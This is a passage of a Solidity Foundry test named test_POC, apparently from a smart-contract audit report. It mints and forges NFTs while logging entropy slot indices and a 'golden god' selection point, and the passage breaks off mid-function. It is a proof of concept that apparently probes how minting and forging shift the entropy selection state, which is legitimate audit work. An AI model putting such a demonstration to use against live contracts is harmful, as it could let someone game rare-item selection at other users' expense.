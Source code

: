 ```
        function test_POC() public {
            vm.pauseGasMetering();
            // skip whitelist phase
            vm.warp(block.timestamp + 25 hours);
            bytes32[] memory proof;

            console.log("________ start ____________");
            for (uint256 j = 1; j <= 2; j++) {
                console.log("gen: ", j, nft.generationMintCounts(j));
            }
            console.log("----");
            console.log("current: ", entropy.currentSlotIndex(), entropy.currentNumberIndex());
            console.log("golden god: ", entropy.slotIndexSelectionPoint(), entropy.numberIndexSelectionPoint());
            console.log("____________________");
            _mintGeneration(1, proof);


            console.log("________ after minting 10,000 NTFs ____________");
            for (uint256 j = 1; j <= 2; j++) {
                console.log("gen: ", j, nft.generationMintCounts(j));
            }
            console.log("----");
            console.log("current: ", entropy.currentSlotIndex(), entropy.currentNumberIndex());
            console.log("golden god: ", entropy.slotIndexSelectionPoint(), entropy.numberIndexSelectionPoint());
            console.log("____________________");

            assertEq(nft.getGeneration(), 1);
            uint256 price = nft.calculateMintPrice();
            nft.mintToken{ value: price }(proof);
            assertEq(nft.getGeneration(), 2);

            console.log("________ after incrementing generation ____________");
            for (uint256 j = 1; j <= 2; j++) {
                console.log("gen: ", j, nft.generationMintCounts(j));
            }
            console.log("----");
            console.log("current: ", entropy.currentSlotIndex(), entropy.currentNumberIndex());
            console.log("golden god: ", entropy.slotIndexSelectionPoint(), entropy.numberIndexSelectionPoint());
            console.log("____________________");


            vm.startPrank(merger);
            for (uint256 i = 0; i < mergeTokenIds.length; i++) {
                nft.approve(address(forging), mergeTokenIds[i]);
                forging.forgeWithListed{value: 0.01 ether}(
                    listedTokenIds[i],
                    mergeTokenIds[i]
                );
            }
            vm.stopPrank();
            delete(listedTokenIds);
            delete(mergeTokenIds);

            console.log("________ after forging all possible gen 2 ____________");
            for (uint256 j = 1; j <= 2; j++) {
                console.log("gen: ", j, nft.generationMintCounts(j));
            }
            console.log("----");
            console.log("current: ", entropy.currentSlotIndex(), entropy.currentNumberIndex());
```